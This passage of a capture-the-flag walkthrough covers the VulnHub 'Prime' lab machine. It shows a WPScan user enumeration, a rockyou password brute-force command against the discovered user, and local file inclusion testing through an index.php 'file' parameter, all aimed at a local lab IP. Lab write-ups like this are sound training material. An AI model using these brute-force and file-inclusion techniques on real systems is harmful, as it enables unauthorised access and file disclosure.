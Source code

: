 
### Exploitation

#### WordPress WPScan

- `wpscan --url http://10.0.2.15/wordpress -e`
- `User(s) Identified: victor`
- `wpscan --url http://10.0.2.15/wordpress -U victor -P /usr/share/wordlists/rockyou.txt`
- I ran this for a few minutes but it didn't find any passwords.

---

#### LFI

- `http://10.0.2.15/secret.txt`

```
Looks like you have got some secrets.

Ok I just want to do some help to you.

Do some more fuzz on every page of php which was finded by you.
And if you get any right parameter then follow the below steps.
If you still stuck
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web

//see the location.txt and you will get your next move//
```

![VulnHub Prime secret.txt File](/imgs/prime/prime_secret_txt.png)

- So we have to try fuzzing every PHP page we found looking for the correct parameter to get the `location.txt` file.
- So basically, we have to try to exploit LFI to get `location.txt`.
- I decided to use my own tool [SyLFI](https://github.com/0xKirito/sylfi) which tests for LFI with a list of predefined common LFI parameters. I commented out the default payload to only include `location.txt` since that's the only file we are looking for and kept the directory traversal depth to 1.
- ```
  ./sylfi.py -u http://10.0.2.15/index.php -d 1
  ```

![VulnHub Prime LFI with SyLFI by 0xKirito](/imgs/prime/prime_lfi_with_sylfi.png)

- ```
  http://10.0.2.15/index.php?file=location.txt
  ```
- On visiting the link, it says:

```
ok well Now you reach at the exact parameter

Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun.
```
